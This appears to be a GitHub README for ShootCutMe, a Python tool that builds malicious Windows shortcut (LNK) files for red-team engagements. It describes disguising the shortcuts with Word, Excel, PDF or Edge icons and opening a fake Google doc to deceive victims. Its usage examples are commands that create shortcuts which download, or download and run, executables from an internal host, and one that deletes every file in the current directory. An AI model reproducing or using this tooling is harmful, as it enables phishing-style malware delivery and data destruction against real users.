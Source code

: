 # ShootCutMe:

LNK files are used on the most modern and advanced APT attacks.

LNK files are windows shortcut files. Using a shortcut file you can launch your own commands.

I am happy to introduce ShootCutMe a script to create LNK files.

Options Available For Version 0.1:

- Fake pdf (Will open a fake Google doc on the browser in kiosk mode to lure the victim and remove suspicions)

- You can choose between different icons (word, Adobe, Excel, PowerPoint, Edge...)

- You can choose what you want to accomplish with the LNK file: download an executable, download and load an executable, execute an executable)
  Using the LNK file you can drop your first-stage malware and complete your red teaming engagement successfully.

## Demo:
<a href="https://youtu.be/gtsenuVOE38" target="_blank">Demo Video</a>
## Install:

```cmd
python -m venv lnkenv
lnkenv\Scripts\activate.bat
python -m pip install -r requirements.txt
```

## Examples:

### Download File:

```cmd
python shootcutme.py --icon excel --name test1 -d http://10.0.3.90:8081/file.txt fileNameAfterDownload.txt D:\LNKtest
```

### Launch Executable:

```cmd
python shootcutme.py --icon word --name test2 -ex exeToLaunch.exe
```

### Fake PDF

```cmd
python shootcutme.py --icon edge --name <shotcutFileName> -fp <googleDocUrl> <executableToLaunch>
```

### Download And Execute:

```cmd
python shootcutme.py --icon pdf --name <shortCutFileName> -dl http://10.0.3.90:8081/example.exe exampleTest.exe D:\LNKtest
```

### Delete all files on the current directory:

```cmd
python shootCutMe.py -n test1.pdf --icon pdf --delete
```
